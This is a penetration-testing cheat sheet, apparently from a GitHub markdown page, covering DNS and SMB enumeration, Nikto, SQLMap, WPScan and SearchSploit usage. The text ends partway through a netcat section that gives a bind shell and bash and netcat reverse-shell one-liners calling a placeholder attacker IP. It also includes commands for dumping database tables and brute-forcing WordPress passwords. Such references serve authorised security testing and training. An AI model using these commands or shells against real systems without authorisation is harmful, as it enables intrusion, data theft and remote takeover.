 ### **Reconnaissance & Enumeration**

#### DNS Enumeration
Tools for querying DNS servers and discovering subdomains.

| Command | Description |
| :--- | :--- |
| `dig ANY <domain>` | Queries for all available DNS records for a domain. |
| `dig AXFR @ns.<domain> <domain>` | **Zone Transfer**: Attempts to get all DNS records for a domain from its nameserver. A common misconfiguration. |
| `nslookup <domain>` | Performs a basic DNS query for the A record (IP address). |
| `gobuster dns -d <domain> -w <wordlist>` | **Subdomain Bruteforce**: Uses `gobuster` to find subdomains by trying names from a wordlist. |
| `ffuf -u https://FUZZ.<domain> -w <wordlist>` | **Subdomain Bruteforce**: Uses `ffuf` for fast subdomain discovery. `FUZZ` is the placeholder for the wordlist entries. |

#### SMB Enumeration
Tools for enumerating Server Message Block (SMB) services, common on Windows networks.

| Command | Description |
| :--- | :--- |
| `enum4linux-ng -A <target_IP>` | **Full Enumeration**: A modern tool that runs all basic enumeration checks for SMB, including shares, users, and policies. |
| `nmap --script=smb-enum-* -p 445 <target>` | **Nmap SMB Scripts**: Uses Nmap's scripting engine to enumerate SMB information. |
| `smbclient -L //<target_IP> -N` | **List Shares**: Lists all available SMB shares on the target without requiring a password (`-N`). |

#### Other Reconnaissance Tools

| Command | Description |
| :--- | :--- |
| `whois <domain>` | Retrieves registration and contact information for a domain. |
| `whatweb <URL>` | Identifies different web technologies used on a website, including CMS, frameworks, and server software. |

***

### **Vulnerability Scanning**

This cheatsheet provides commands for tools that actively scan for specific security vulnerabilities.

#### Nikto
A web server scanner that tests for thousands of potentially dangerous files/CGIs, outdated server versions, and other common misconfigurations.

| Command | Description |
| :--- | :--- |
| `nikto -h <URL>` | **Basic Scan**: Runs a standard scan against the specified web server. |
| `nikto -h <URL> -p 80,443,8080` | **Scan Specific Ports**: Scans the specified ports on the target. |
| `nikto -h <URL> -o report.html` | **Save Output**: Saves the scan results in an HTML file. |

#### SQLMap
An automatic SQL injection and database takeover tool.

| Command | Description |
| :--- | :--- |
| `sqlmap -u "<URL_with_param>"` | **Basic Test**: Tests a URL with a parameter for SQL injection vulnerabilities. |
| `sqlmap -u "<URL>" --forms` | **Test Forms**: Automatically finds and tests forms on a URL. |
| `sqlmap -u "<URL>" --dbs` | **List Databases**: If vulnerable, lists all available databases. |
| `sqlmap -u "<URL>" -D <db_name> --tables` | **List Tables**: Lists tables from a specific database. |
| `sqlmap -u "<URL>" -D <db_name> -T <table_name> --dump` | **Dump Table**: Dumps the content of a specific table. |
| `sqlmap -r request.txt` | **Test from Request File**: Tests a request captured in a file (e.g., from Burp Suite). |

#### WPScan
A black box WordPress security scanner.

| Command | Description |
| :--- | :--- |
| `wpscan --url <URL>` | **Basic Scan**: Runs a basic passive scan, checking the WordPress version and theme. |
| `wpscan --url <URL> --enumerate u` | **Enumerate Users**: Enumerates WordPress usernames. |
| `wpscan --url <URL> --enumerate p` | **Enumerate Plugins**: Lists installed plugins. |
| `wpscan --url <URL> --enumerate t` | **Enumerate Themes**: Lists installed themes. |
| `wpscan --url <URL> -P <pass_list> -U <user_list>` | **Password Brute-force**: Attempts to brute-force user passwords. |
| `wpscan --url <URL> --api-token <your_token>` | **Vulnerability Scan**: Uses the WPScan API to check for vulnerabilities in the enumerated plugins, themes, and WordPress version. |

#### SearchSploit
A command-line search tool for the Exploit Database.

| Command | Description |
| :--- | :--- |
| `searchsploit <term>` | **Search for Exploits**: Searches the local Exploit-DB repository for a term (e.g., `apache 2.4.49`). |
| `searchsploit -m <exploit_path>` | **Mirror (Copy) Exploit**: Copies an exploit from the repository to the current directory. |
| `searchsploit -x <exploit_path>` | **Examine Exploit**: Displays the content of the exploit file using `less`. |

***

### **Exploitation**

#### Netcat (`nc`)
The "Swiss-army knife" of networking, essential for shells.

| Command | Description |
| :--- | :--- |
| `nc -lvnp <port>` | **Set up a Listener**: Listens on a specified port for incoming connections. (`-l` listen, `-v` verbose, `-n` no DNS, `-p` port) |
| `nc <target_IP> <port>` | **Connect to a Listener**: Connects to a listening port. |
| `nc -lvnp <port> -e /bin/bash` | **Bind Shell**: Listens and executes `/bin/bash` upon connection (requires a version of `nc` with the `-e` option). |

##### Common Reverse Shells (run on the target machine):
```bash
# Bash Reverse Shell
bash -i >& /dev/tcp/<your_IP>/<port> 0>&1

# Netcat Reverse Shell
nc <your_IP> <port> -e /bin/bash